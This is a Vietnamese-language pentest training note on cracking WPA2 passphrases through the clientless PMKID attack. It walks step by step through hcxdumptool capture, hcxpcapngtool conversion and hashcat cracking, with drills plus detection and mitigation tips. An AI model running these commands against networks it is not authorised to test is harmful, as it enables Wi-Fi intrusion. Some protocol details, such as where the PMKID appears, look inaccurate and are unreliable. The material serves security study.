

> **Prerequisites**: [[01-wpa2-cryptographic-foundations|01. WPA2-Personal Cryptographic Foundations]] · [[02-80211-frame-monitor-mode|02. 802.11 Frame & Monitor Mode]]
> **Objectives**:
> - Hiểu tại sao PMKID cho phép crack WPA2 mà không cần client
> - Dùng hcxdumptool để extract PMKID trực tiếp từ AP
> - Convert pcapng sang hashcat format với hcxpcapngtool
> - Phân tích RSN IE để xác định PMKID presence

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - AP hỗ trợ 802.11r (fast BSS transition / fast roaming) — gửi PMKID trong RSN IE
> - Không cần client nào đang kết nối
> - Monitor mode interface
> - Đủ signal strength với AP
>
> [!tip] Ai vulnerable?
> Phần lớn AP hiện đại (2018+) với fast roaming enabled. Đặc biệt phổ biến trên home routers từ các hãng lớn (Cisco, Netgear, TP-Link, ASUS). Jens Steube (tác giả hashcat) phát hiện attack này năm 2018.
>
---

## Cơ chế tấn công

### PMKID trong RSN IE

![[img-04-pmkid-flow.svg]]
*Hình 1: So sánh classic handshake attack vs PMKID clientless attack, và cracking pipeline*

RSN Information Element (RSN IE) là optional field trong 802.11 Management frames. Trường `PMKID List` có thể chứa PMKID của session trước (phục vụ fast roaming):

```text
RSN IE (Tag 48):
  Tag Number: 48
  Tag Length: 52
  RSN Version: 1
  Group Cipher Suite: CCMP (00-0F-AC-04)
  Pairwise Cipher Suite Count: 1
  Pairwise Cipher Suite: CCMP
  AKM Suite Count: 1
  AKM Suite: PSK (00-0F-AC-02)
  RSN Capabilities: 0x0000
  PMKID Count: 1
  PMKID List:
    PMKID[0]: <16 bytes>   ← TARGET
```

### PMKID Formula — Tại sao có thể crack offline

```text
PMKID = HMAC-SHA1-128(PMK, "PMK Name" || AP_MAC || STA_MAC)
```

- `"PMK Name"` = hằng số ASCII string
- `AP_MAC` = BSSID (observable)
- `STA_MAC` = Client MAC (có thể là MAC của attacker khi send association)
- `PMK` = `PBKDF2-SHA1(passphrase, SSID, 4096)` → **đây là unknown cần crack**

Attacker biết tất cả trừ PMK → tương đương với việc crack MIC trong handshake attack, nhưng **không cần client thật**.

### Cách hcxdumptool extract PMKID

hcxdumptool gửi Association Request tới AP. AP phản hồi với Association Response chứa RSN IE kèm PMKID — không cần 4-way handshake hoàn chỉnh.

```text
Attacker                    AP
   |                         |
   |-- EAPOL-Start -------->  |
   |-- Association Req ----->  |
   |<-- Association Resp ----  |   ← RSN IE với PMKID bên trong
   |    [extract PMKID]        |
   X    (ngắt kết nối)         |
```

---

## Quy trình tấn công

**Môi trường giả định**: AP BSSID `AA:BB:CC:DD:EE:FF`, Channel 6.

**Bước 1 — Install hcxtools nếu chưa có**

```bash
sudo apt update && sudo apt install hcxtools hcxdumptool -y

# Hoặc từ source (version mới nhất)
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools && make && sudo make install
```

**Bước 2 — Kill interference (monitor mode)**

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# Hoặc dùng ip link:
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
```

**Bước 3 — Capture PMKID với hcxdumptool**

```bash
# Capture tất cả APs trong range
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=3

# Target AP cụ thể (hiệu quả hơn)
sudo hcxdumptool -i wlan0mon -o capture.pcapng \
    --filterlist_ap=filter.txt \
    --filtermode=2 \
    --enable_status=3

# filter.txt chứa BSSID (lowercase, không dấu hai chấm):
echo "aabbccddeeff" > filter.txt
```

> **Expected output**:
> ```text
> start capturing (stop with ctrl+c)
> [15:01:23 - 001] FOUND PMKID CLIENT-LESS -> STA: aabbccddeeff BSSID: 112233445566
> [15:01:24 - 002] FOUND PMKID CLIENT-LESS -> STA: aabbccddeeff BSSID: 112233445566
```

Chờ đến khi thấy `FOUND PMKID CLIENT-LESS` → Ctrl+C.

**Bước 4 — Convert sang hashcat format**

```bash
# Convert pcapng → .hc22000 (unified format — handle cả PMKID và handshake)
hcxpcapngtool capture.pcapng -o hashes.hc22000

# Verbose output — xem chi tiết
hcxpcapngtool capture.pcapng -o hashes.hc22000 --all

# Verify: xem format của hash
head -1 hashes.hc22000
```

> **Expected output** (PMKID line):
> ```text
> WPA*01*<pmkid_hex>*<ap_mac>*<sta_mac>*<ssid_hex>***
```

> [!info] WPA\*01 vs WPA\*02
> - `WPA*01*` = PMKID record
> - `WPA*02*` = EAPOL handshake record
> hashcat `-m 22000` xử lý cả hai format trong cùng một run.
>
**Bước 5 — Crack với hashcat**

```bash
# Dictionary attack
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/rockyou.txt

# Với rules
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# Show result nếu đã crack
hashcat -m 22000 hashes.hc22000 --show
```

> **Expected output**:
> ```text
> WPA*01*...*aabbccddeeff*...*HomeNet*...:mypassword123
```

---

## Biến thể & Bypass

### Dùng bettercap thay hcxdumptool

```bash
# Start bettercap
sudo bettercap -iface wlan0mon

# Trong bettercap shell:
wifi.recon on
wifi.assoc AA:BB:CC:DD:EE:FF
# Bettercap tự động capture PMKID
```

### Passive PMKID (không send Association)

Một số AP broadcast PMKID trong Beacon frames hoặc Probe Response. hcxdumptool capture được cả passive:

```bash
# Chỉ passive (không gửi frames)
sudo hcxdumptool -i wlan0mon -o capture.pcapng --active_beacon=0
```

### Extract thủ công từ Wireshark

```text
Filter: wlan.rsn.pmkid
```

Xem trường `RSN PMKID` trong packet detail → copy 16 bytes hex.

### Verify PMKID với hcxhash2cap

```bash
# Kiểm tra hash file structure
hcxhash2cap --pmkid=hashes.hc22000 -c verify.pcap
```

---

## Cây quyết định



---

## Command Cheatsheet

**Setup**

```bash
# Install
sudo apt install hcxtools hcxdumptool

# Monitor mode
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```

**Capture PMKID**

```bash
# Tất cả APs
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=3

# Target AP cụ thể
echo "<bssid_lowercase_no_colons>" > filter.txt
sudo hcxdumptool -i wlan0mon -o capture.pcapng \
    --filterlist_ap=filter.txt --filtermode=2 --enable_status=3
# <bssid>: ví dụ aabbccddeeff (lowercase, no colons)
```

**Convert và crack**

```bash
# Convert
hcxpcapngtool capture.pcapng -o hashes.hc22000

# Verify
wc -l hashes.hc22000   # > 0 là OK
head -1 hashes.hc22000  # WPA*01* hoặc WPA*02*

# Crack basic
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/rockyou.txt

# Crack với rules
hashcat -m 22000 hashes.hc22000 rockyou.txt -r best64.rule

# Show cracked
hashcat -m 22000 hashes.hc22000 --show
```

**Passive check trong Wireshark**

```text
Filter: wlan.rsn.pmkid
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — hcxdumptool command**
Mục tiêu: gõ đúng command từ memory.

```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=3
```

Luyện cho đến khi: gõ trong dưới 5 giây, không nhìn notes.

**Drill 2 — Pipeline convert-crack**
Mục tiêu: convert và launch hashcat trong dưới 30 giây.

```bash
hcxpcapngtool capture.pcapng -o hashes.hc22000
head -1 hashes.hc22000  # verify format
hashcat -m 22000 hashes.hc22000 /usr/share/wordlists/rockyou.txt
```

Luyện cho đến khi: pipeline liền mạch không pause.

**Drill 3 — Phân tích output**
Mục tiêu: đọc được WPA*01/WPA*02 format và giải thích từng field.

```text
WPA*01*<pmkid>*<ap_mac>*<sta_mac>*<ssid_hex>***
          ^        ^         ^          ^
       PMKID    BSSID    Attacker    SSID (hex encoded)
```

Luyện cho đến khi: giải thích được từng field không cần notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **WIDS**: Nhiều Association Request từ một MAC lạ trong thời gian ngắn
> - hcxdumptool gửi Association frames nhanh hơn client bình thường
> - Detect MAC cycling (hcxdumptool rotate MAC để tránh block)
>
> **SIEM rule**: `count(AssociationReq, src=X) > 50/min AND AssocResp.Status!=Success`
>
> [!note] Mitigation
> - Disable fast roaming (802.11r) nếu không cần → AP không gửi PMKID
> - 802.11w PMF không giúp cho PMKID attack (PMF chỉ protect Management frames)
> - Dùng passphrase mạnh 20+ ký tự random → crack offline không khả thi
> - WPA3 SAE thay thế PSK → không có PMKID offline crack
>
---

## Lab Thực hành

| Platform | Machine/Module | Technique |
|----------|---------------|---------|
| HTB Academy | **Wi-Fi Password Cracking Techniques** | PMKID extraction + cracking |
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | hcxdumptool workflow |
| Local VM | Kali + mac80211_hwsim + hostapd | Capture PMKID từ virtual AP |
| Local VM | 2 USB WiFi adapters | Real-world PMKID attack |

---

## Field Manual Entry

> [!abstract] PMKID Clientless Attack — Quick Reference
> **Điều kiện**: AP hỗ trợ fast roaming, không cần client
> **Lệnh nhanh**: `hcxdumptool -i wlan0mon -o cap.pcapng --enable_status=3`
> **Full flow**: `airmon-ng check kill` → `airmon-ng start wlan0` → `hcxdumptool` capture → `hcxpcapngtool cap.pcapng -o hash.hc22000` → `hashcat -m 22000 hash.hc22000 wordlist`
> **Look for**: `FOUND PMKID CLIENT-LESS` trong hcxdumptool output
> **Detection**: Nhiều Association Req từ lạ MAC; WIDS alert
> **Ref**: [[04-pmkid-clientless-attack|04. PMKID Clientless Attack]]
>
```text